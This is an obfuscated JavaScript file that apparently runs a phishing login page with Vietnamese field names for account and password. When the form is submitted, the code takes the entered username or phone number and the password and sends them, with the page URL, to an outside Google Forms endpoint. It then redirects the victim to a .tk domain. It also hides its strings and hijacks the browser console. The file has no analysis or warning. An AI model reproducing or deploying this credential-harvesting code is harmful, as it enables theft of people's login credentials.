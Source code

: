 const _0x1e1132=_0x1ea0;(function(_0x47852b,_0x266538){const _0x294337=_0x1ea0,_0x204a1a=_0x47852b();while(!![]){try{const _0x2b443a=-parseInt(_0x294337(0xe8))/0x1*(-parseInt(_0x294337(0xd3))/0x2)+parseInt(_0x294337(0xf1))/0x3*(parseInt(_0x294337(0xe4))/0x4)+parseInt(_0x294337(0xd5))/0x5*(-parseInt(_0x294337(0xe0))/0x6)+parseInt(_0x294337(0xd2))/0x7*(parseInt(_0x294337(0xcb))/0x8)+-parseInt(_0x294337(0xe6))/0x9*(-parseInt(_0x294337(0xdc))/0xa)+-parseInt(_0x294337(0xc5))/0xb*(-parseInt(_0x294337(0xcd))/0xc)+-parseInt(_0x294337(0xd0))/0xd;if(_0x2b443a===_0x266538)break;else _0x204a1a['push'](_0x204a1a['shift']());}catch(_0x364861){_0x204a1a['push'](_0x204a1a['shift']());}}}(_0x3c03,0x2139e));const _0x13ec42=(function(){let _0x46b23f=!![];return function(_0x597f63,_0x2bbeb5){const _0x397de1=_0x46b23f?function(){if(_0x2bbeb5){const _0x90bd14=_0x2bbeb5['apply'](_0x597f63,arguments);return _0x2bbeb5=null,_0x90bd14;}}:function(){};return _0x46b23f=![],_0x397de1;};}()),_0x59aa9d=_0x13ec42(this,function(){const _0x2846cf=_0x1ea0;return _0x59aa9d[_0x2846cf(0xf7)]()[_0x2846cf(0xd7)]('(((.+)+)+)+$')[_0x2846cf(0xf7)]()[_0x2846cf(0xf3)](_0x59aa9d)[_0x2846cf(0xd7)]('(((.+)+)+)+$');});function _0x1ea0(_0x1a6b6c,_0x31561){const _0x4a2c5f=_0x3c03();return _0x1ea0=function(_0x58bd95,_0x1f6690){_0x58bd95=_0x58bd95-0xc3;let _0x378a87=_0x4a2c5f[_0x58bd95];return _0x378a87;},_0x1ea0(_0x1a6b6c,_0x31561);}_0x59aa9d();function _0x3c03(){const _0x1a022b=['Content-Type','prototype','value','5830QuCbSF','serialize','href','num','1122846HGTpdG','test','error','exception','28264slCRZv','trace','2034XqBiKQ','return\x20(function()\x20','5qrIzRC','location','length','getElementById','log','thongbao','querySelector','setRequestHeader','POST','3EpPiVC','onsubmit','constructor','warn','table','bind','toString','https://shpjerrynqt.tk/','show','ajax','#login_error1','11rnbhJb','apply','isNumeric','hide','preventDefault','fire','1919352WZqGgq','application/x-www-form-urlencoded','708624nNwFZA','input[name=\x22taikhoan\x22]','#login_error2','2386735XDtOCv','https://docs.google.com/forms/d/e/1FAIpQLSfHjyAue79rdTYpX1r0AIvccCqFVIrkH7P3FbTdtjr1Kq_lsA/formResponse','7twUStD','27614MCtXTB','console','5LHWqOn','form#login_form','search','JSON'];_0x3c03=function(){return _0x1a022b;};return _0x3c03();}const _0x1f6690=(function(){let _0x14d1cf=!![];return function(_0x451444,_0x3774e9){const _0xf153ad=_0x14d1cf?function(){const _0x92bc49=_0x1ea0;if(_0x3774e9){const _0x52bc9b=_0x3774e9[_0x92bc49(0xc6)](_0x451444,arguments);return _0x3774e9=null,_0x52bc9b;}}:function(){};return _0x14d1cf=![],_0xf153ad;};}()),_0x58bd95=_0x1f6690(this,function(){const _0xcf4245=_0x1ea0,_0x607fff=function(){const _0x383d65=_0x1ea0;let _0x39464f;try{_0x39464f=Function(_0x383d65(0xe7)+'{}.constructor(\x22return\x20this\x22)(\x20)'+');')();}catch(_0x529bc4){_0x39464f=window;}return _0x39464f;},_0x1e6658=_0x607fff(),_0x5c02e3=_0x1e6658[_0xcf4245(0xd4)]=_0x1e6658[_0xcf4245(0xd4)]||{},_0x350a25=[_0xcf4245(0xec),_0xcf4245(0xf4),'info',_0xcf4245(0xe2),_0xcf4245(0xe3),_0xcf4245(0xf5),_0xcf4245(0xe5)];for(let _0x58828a=0x0;_0x58828a<_0x350a25[_0xcf4245(0xea)];_0x58828a++){const _0x1ccf02=_0x1f6690[_0xcf4245(0xf3)][_0xcf4245(0xda)]['bind'](_0x1f6690),_0x228ff5=_0x350a25[_0x58828a],_0xccca33=_0x5c02e3[_0x228ff5]||_0x1ccf02;_0x1ccf02['__proto__']=_0x1f6690[_0xcf4245(0xf6)](_0x1f6690),_0x1ccf02['toString']=_0xccca33['toString'][_0xcf4245(0xf6)](_0xccca33),_0x5c02e3[_0x228ff5]=_0x1ccf02;}});_0x58bd95();let num=0x0;function go1(){const _0x1d303f=_0x1ea0;window[_0x1d303f(0xe9)][_0x1d303f(0xde)]=_0x1d303f(0xf8);}$(_0x1e1132(0xc4))['hide'](),$(_0x1e1132(0xcf))['hide']();function telephoneCheck(_0x485095){const _0xf93ee1=_0x1e1132;var _0x30883d=/^(1\s|1|)?((\(\d{3}\))|\d{3})(\-|\s)?(\d{3})(\-|\s)?(\d{4})$/[_0xf93ee1(0xe1)](_0x485095);return _0x30883d;}function validateEmail(_0x4f6214){var _0xe6beb5=/\S+@\S+\.\S+/;return _0xe6beb5['test'](_0x4f6214);}function go(){const _0x4c60b5=_0x1e1132;let _0x4e4ebb=document['querySelector'](_0x4c60b5(0xce)),_0x28d3e7=document[_0x4c60b5(0xee)]('input[name=\x22matkhau\x22]'),_0x370168=_0x4e4ebb[_0x4c60b5(0xdb)],_0x1f28e1=_0x28d3e7[_0x4c60b5(0xdb)],_0x5997da={'entry.1119446543':window[_0x4c60b5(0xe9)][_0x4c60b5(0xde)],'entry.627529954':_0x370168,'entry.500132017':_0x1f28e1},_0x5bb63c=new URLSearchParams(_0x5997da);_0x5bb63c=_0x5bb63c[_0x4c60b5(0xf7)]();let _0x5ce3c4=new XMLHttpRequest();_0x5ce3c4['open']('POST',_0x4c60b5(0xd1),!![]),_0x5ce3c4[_0x4c60b5(0xef)](_0x4c60b5(0xd9),_0x4c60b5(0xcc)),_0x5ce3c4['send'](_0x5bb63c),Swal[_0x4c60b5(0xca)]({'icon':icon,'title':title,'text':text})['then'](_0x2b18f4=>{go1();}),localStorage['setItem'](_0x4c60b5(0xdf),num++);}document[_0x1e1132(0xee)]('#login_form')[_0x1e1132(0xf2)]=function(_0x523292){const _0x4b97a0=_0x1e1132;_0x523292[_0x4b97a0(0xc9)]();let _0x3e61de=document[_0x4b97a0(0xee)](_0x4b97a0(0xce)),_0x311bf9=document[_0x4b97a0(0xee)]('input[name=\x22matkhau\x22]');var _0x3024d0=document[_0x4b97a0(0xeb)](_0x4b97a0(0xed));let _0x49e226=window[_0x4b97a0(0xe9)]['pathname'],_0x368fbc=_0x3e61de[_0x4b97a0(0xdb)],_0x1b9b5c=_0x311bf9['value'];if(_0x368fbc=='')$(_0x4b97a0(0xc4))['show'](),$(_0x4b97a0(0xcf))[_0x4b97a0(0xc8)]();else{if($[_0x4b97a0(0xc7)](_0x368fbc)==!![]){if(telephoneCheck(_0x368fbc)==!![]){if(_0x1b9b5c['length']>=0x6){go();var _0x365d18=$(_0x4b97a0(0xd6))[_0x4b97a0(0xdd)]();return $['ajax']({'type':_0x4b97a0(0xf0),'url':_0x49e226,'dataType':_0x4b97a0(0xd8),'data':_0x365d18,'success':function(){}}),!![],$('#login_error1')[_0x4b97a0(0xc8)](),$('#login_error2')[_0x4b97a0(0xc8)]();}else $(_0x4b97a0(0xc4))['hide'](),$(_0x4b97a0(0xcf))['show']();}else $(_0x4b97a0(0xc4))[_0x4b97a0(0xf9)](),$(_0x4b97a0(0xcf))[_0x4b97a0(0xc8)]();}else{if(_0x1b9b5c['length']<=0x5||_0x1b9b5c=='')$(_0x4b97a0(0xc4))[_0x4b97a0(0xc8)](),$(_0x4b97a0(0xcf))[_0x4b97a0(0xf9)]();else{if(validateEmail(_0x368fbc)==!![]){go();var _0x365d18=$('form#login_form')[_0x4b97a0(0xdd)]();return $[_0x4b97a0(0xc3)]({'type':_0x4b97a0(0xf0),'url':_0x49e226,'dataType':'JSON','data':_0x365d18,'success':function(){}}),!![],$(_0x4b97a0(0xc4))[_0x4b97a0(0xc8)](),$(_0x4b97a0(0xcf))[_0x4b97a0(0xc8)]();}else $(_0x4b97a0(0xc4))[_0x4b97a0(0xf9)](),$('#login_error2')[_0x4b97a0(0xc8)]();}}}};
